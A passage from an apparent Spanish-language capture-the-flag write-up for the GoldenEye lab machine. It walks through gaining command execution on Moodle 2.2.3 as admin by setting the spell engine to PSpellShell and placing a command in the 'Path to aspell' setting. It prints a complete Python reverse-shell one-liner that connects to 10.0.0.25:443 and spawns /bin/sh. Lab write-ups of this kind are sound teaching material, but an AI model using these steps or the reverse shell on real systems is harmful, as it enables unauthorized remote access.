 ![](/assets/images/vh-goldeneye/goldeneye-web12.png)

Como nos encontramos como el usuario **admin**, podemos modificar algunas cosas del gestor del contenido, por lo que si buscamos un exploit público asociado a **Moodle 2.2.3** encontramos payloads del framework de metasploit; pero en este sitio cristiano no ocupamos ese tipo de cosas, por lo que vamos a analizar lo que hace el [exploit](https://github.com/offensive-security/exploitdb/blob/master/exploits/linux/remote/29324.rb).

- Primero nos dice que debemos ir a la ruta `/gnocertdir/admin/settings.php?section=editorsettingstinymce` y modificar el valor de **Spell engine** por **PSpellShell** y guardamos los cambios.

![](/assets/images/vh-goldeneye/goldeneye-web13.png)

- Después debemos ir a `/gnocertdir/admin/settings.php?section=systempaths` y en el parámetro **Path to aspell** debemos poner nuestro comando que nos entable una reverse shell, para este caso utilizaremos python con la siguiente instrucción: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.25",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` y guardamos los cambios.
